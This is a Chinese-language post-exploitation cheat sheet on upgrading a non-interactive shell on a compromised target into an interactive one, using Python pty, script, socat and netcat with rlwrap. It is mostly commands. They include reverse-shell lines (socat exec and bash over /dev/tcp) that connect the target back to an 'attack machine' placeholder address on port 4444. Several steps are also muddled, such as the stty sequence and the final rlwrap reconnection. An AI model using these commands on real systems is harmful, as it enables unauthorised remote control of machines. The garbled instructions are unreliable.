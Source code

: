 ### 如何从非交互的 Shell 提升为交互 Shell

方法一：使用 Python PTY 模块（最常用）

如果目标系统安装了 Python，这是最简单、最可靠的方法

1. **执行命令：** 在你的非交互shell中输入并执行以下命令：

   ```bash
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```

   这条命令会调用 Python 的`pty`模块，创建一个伪终端，并执行`/bin/bash`

2. **设置终端：** 此时，你已经获得了一个基本的交互式 shell，但可能仍然存在一些显示问题。接下来，需要通过以下命令进一步完善：

   ```bash
   # 这一步是设置环境变量，让终端知道自己是什么类型
   export TERM=xterm
   
   # 这一步是后台运行stty命令，捕获终端信号
   stty raw -echo
   ```

   **注意：** 最后一条命令 `stty raw -echo` 执行后，你的输入可能不会立即显示。这是正常的，你需要继续操作

3. **背景化（可选）：** 此时你的 shell 仍在前台，可以将其发送到后台：

   ```bash
   Ctrl + Z
   ```

   然后回到你自己的攻击机终端，执行以下命令，将 shell 重新拉回前台：

   ```bash
   stty raw echo
   fg
   ```

   现在，你拥有了一个功能完整的、带有 `Tab` 补全、上下箭头和 `Ctrl+C` 功能的交互式 shell

**方法二：使用 `script` 命令**

`script` 命令用于记录终端会话，但也可以用来提升 shell

1. **执行命令：**

   ```bash
   script /dev/null
   ```

   这条命令会启动一个新的 shell，并将所有输出写入 `/dev/null`。这实际上创建了一个新的伪终端

2. **完成设置：**

   ```bash
   Ctrl + C
   export SHELL=bash
   export TERM=xterm
   reset
   ```

   **注意：** 这种方法有时可能不稳定，并且在某些系统上可能不适用

**方法三：使用 `socat`**

`socat`是一个功能强大的网络工具，可以用于在两个位置之间建立双向数据流

1. **攻击机（监听端）：** 在你的攻击机上，使用 `socat` 监听一个端口

   ```bash
   socat file:`tty`,raw,echo=0 tcp-listen:4444
   ```

2. **目标机（执行端）：** 在非交互式 Shell中，使用 `socat` 连接到你的攻击机

   ```bash
   socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<攻击机IP>:4444
   ```

3. **优势：** `socat` 的方法非常强大，可以创建非常稳定的交互式 Shell，并能处理各种终端信号

**方法四：使用 `rlwrap`（需要安装）**

`rlwrap` 是一个命令行工具，它可以为任何程序添加 `readline` 功能，包括历史记录和行编辑

1. **攻击机（监听端）：**

   ```bash
   nc -lvnp 4444
   ```

2. **目标机（执行端）：**

   ```bash
   bash -i >& /dev/tcp/<攻击机IP>/4444 0>&1
   ```

   此时，你获得了非交互式 Shell

3. **攻击机（提升 shell）：** 在你自己的攻击机上，使用 `rlwrap` 重新连接到目标主机，就可以获得一个带有历史记录和补全功能的 Shell

   ```bash
   rlwrap nc -v <目标机IP> 4444
   ```

   **注意：** 这需要 `rlwrap` 工具在你的攻击机上已经安装